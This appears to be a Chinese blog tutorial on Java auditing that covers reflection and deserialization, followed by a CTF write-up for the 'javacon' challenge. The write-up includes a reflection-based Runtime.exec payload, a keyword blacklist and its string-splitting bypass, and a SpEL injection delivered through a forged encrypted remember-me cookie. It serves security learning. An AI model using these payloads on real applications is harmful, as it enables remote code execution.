 ```yaml
---
layout: post
title: java审计入门
slug: typography
date: 2019-11-17 13:53:36
status: publish
author: AlanDecode
categories: 
  - Maverick
tags:
  - Design
  - Typography
---
```


## 反射相关概念

引用p牛的一句话

> 一段代码，改变其中的变量，将会导致这段代码产⽣生功能性的变化，我称之为动态特性

PHP本身有很多的动态特性，java虽然没有那么灵活，但是java的反射赋予了Java一些动态地特性



我在学习java的时候，一直不太清楚java是如何获取变量的类型的，python和JavaScript都可以用`type`来分清楚这个变量的类型

后来才知道`getClass`这个方法，可以返回变量的类型

比如

```
System.out.println("a".getClass());

输出class java.lang.String

System.out.println(new Integer(1).getClass());

输出class java.lang.Integer

System.out.println(Runtime.getRuntime().getClass());
输出 class java.lang.Runtime
```

这样就知道了这个对象属于哪个类



其实我们不止可以获得对象属于哪个类，我们还可以调用这个对象所属的类的方法

来看一个最常用的payload

```java
Class clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc");        
```

1. 首先获取`java.lang.Runtime`的类型`类`
2. 然后获取`java.lang.Runtime`的方法`exec`，由于`exec`方法有重载，所以要指明参数类型`String.class`
3. 之后通过`invoke`调用，第一个参数是`Runtime`的对象，第二个参数是`calc`

invoke调用时候的规定如下：

1. 如果是一个普通方法，第一个参数是类对象
2. 如果是一个静态方法，第一个参数是类

`java.lang.Runtime`的构造函数是私有的，也就是说不能通过实例化来产生其对象，必须通过调用`java.lang.Runtime.getRuntime`方法来得到一个对象

同时`getRuntime`方法是静态方法，所以`invoke`的第一个参数是类对象，没有其他的参数了

单例模式是因为有些操作只需要做一次就够了，比如建立数据库连接之类的

故其实中还有一次反射调用

1. 获取`java.lang.Runtime`的方法`getRuntime`
2. 通过invoke调用，产生一个`Runtime`的实例对象

## 反序列化

java的反序列化是通过`ObjectOutputStream`和`ObjectInputStream`两个类来实现的，同时要序列化的类必须实现`Serializable`接口

与PHP类似，Java在序列化一个对象的时候会调用`writeObject`方法，在反序列化一个对象的时候会调用`readObject`方法



## code-breaking——javacon

一个spring框架写的登陆界面，用户名和密码都是admin，有一个remember me可以勾选

`application.yml`中有一些相关的设置

```
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

`keywords`是我们之后要绕过的

仔细分析代码，其中有存在一处类似模板渲染的语句

```java
        ParserContext parserContext = new TemplateParserContext();
        Expression exp = parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
```

其实就是与其跟黑名单做正则匹配，如果匹配成功则抛出`HttpStatus.FORBIDDEN`，如果没有匹配到则进行正常流程，在`SmallEvaluationContext`进行SpEL表达式解析。注意，这里就存在El表达式注入的问题了。

这一处位于`getAdvanceValue`函数中，调用它的是这里：

```java
    @GetMapping
    public String admin(@CookieValue(value = "remember-me", required = false) String rememberMeValue,
                        HttpSession session,
                        Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if(username == null || username.toString().equals("")) {
            return "redirect:/login";
        }

        model.addAttribute("name", getAdvanceValue(username.toString()));
        return "hello";
    }
```

这里相当于是admin的管理界面，首先会检查`rememberMeValue`的值，并且尝试去解密其中的用户名，同时加入到`session`中，之后执行`model.addAttribute("name", getAdvanceValue(username.toString()));`

那么这里的关键就是`cookie`中的rememberMeValue，由于我们已经知道了加密的算法和密钥(代码都是直接给的)，那么就可以通过伪造`rememberMeValue`来达到rce

首先需要一条java的反射链，因为要绕过一些关键字：

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"calc")
```

之后要将其构造成Spel表达式，就是增加一个`T()`

先本地测试弹一个计算器

```
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"calc\"})}"));
```

生成的payload

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9Gj_AWy8DB8Dxea8atf2wr8=
```

之后登陆再替换掉cookie

![1573973547431](java审计入门/1573973547431.png)

当然后续还有其他的利用过程去读flag,就不一一细说了

